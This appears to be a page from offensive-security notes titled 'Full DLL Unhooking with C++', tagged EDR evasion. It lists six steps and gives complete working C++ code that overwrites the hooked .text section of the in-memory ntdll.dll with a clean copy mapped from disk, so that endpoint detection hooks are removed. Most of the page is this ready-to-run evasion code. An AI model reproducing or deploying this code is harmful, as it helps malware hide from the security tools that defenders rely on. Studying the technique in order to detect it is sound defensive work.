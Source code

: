 ```yaml
---
description: EDR evasion
---
```


# Full DLL Unhooking with C++

It's possibly to completely unhook any given DLL loaded in memory, which may help in evading some EDR solutions.

## Overview

The process for unhooking a DLL is as follows. Let's say that an ntdll.dll is hooked:

1. Map a fresh copy of ntdll.dll from disk to process memory
2. Find virtual address of the .text section of the hooked ntdll.dll
   1. get ntdll.dll base address
   2. module base address + module's .text section VirtualAddress
3. Find virtual address of the .text section of the freshly mapped ntdll.dll
4. Get original memory protections of the hooked module's .text section
5. Copy .text section from freshly mapped dll to the virtual address \(found in step 3\) of the original \(hooked\) ntdll.dll - this is the meat of the unhooking as all hooked bytes get overwritten with fresh ones from the disk
6. Apply original memory protections to the freshly unhooked .text section of the original ntdll.dll

## Code

Below code fully unhooks the ntdll.dll although it could be modified to unhook any other DLL.

```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>
#include <winternl.h>
#include <psapi.h>

int main()
{
	HANDLE process = GetCurrentProcess();
	MODULEINFO mi = {};
	HMODULE ntdllModule = GetModuleHandleA("ntdll.dll");
	
	GetModuleInformation(process, ntdllModule, &mi, sizeof(mi));
	LPVOID ntdllBase = (LPVOID)mi.lpBaseOfDll;
	HANDLE ntdllFile = CreateFileA("c:\\windows\\system32\\ntdll.dll", GENERIC_READ, FILE_SHARE_READ, NULL, OPEN_EXISTING, 0, NULL);
	HANDLE ntdllMapping = CreateFileMapping(ntdllFile, NULL, PAGE_READONLY | SEC_IMAGE, 0, 0, NULL);
	LPVOID ntdllMappingAddress = MapViewOfFile(ntdllMapping, FILE_MAP_READ, 0, 0, 0);

	PIMAGE_DOS_HEADER hookedDosHeader = (PIMAGE_DOS_HEADER)ntdllBase;
	PIMAGE_NT_HEADERS hookedNtHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)ntdllBase + hookedDosHeader->e_lfanew);

	for (WORD i = 0; i < hookedNtHeader->FileHeader.NumberOfSections; i++) {
		PIMAGE_SECTION_HEADER hookedSectionHeader = (PIMAGE_SECTION_HEADER)((DWORD_PTR)IMAGE_FIRST_SECTION(hookedNtHeader) + ((DWORD_PTR)IMAGE_SIZEOF_SECTION_HEADER * i));
		
		if (!strcmp((char*)hookedSectionHeader->Name, (char*)".text")) {
			DWORD oldProtection = 0;
			bool isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, PAGE_EXECUTE_READWRITE, &oldProtection);
			memcpy((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), (LPVOID)((DWORD_PTR)ntdllMappingAddress + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize);
			isProtected = VirtualProtect((LPVOID)((DWORD_PTR)ntdllBase + (DWORD_PTR)hookedSectionHeader->VirtualAddress), hookedSectionHeader->Misc.VirtualSize, oldProtection, &oldProtection);
		}
	}

	return 0;
}
```


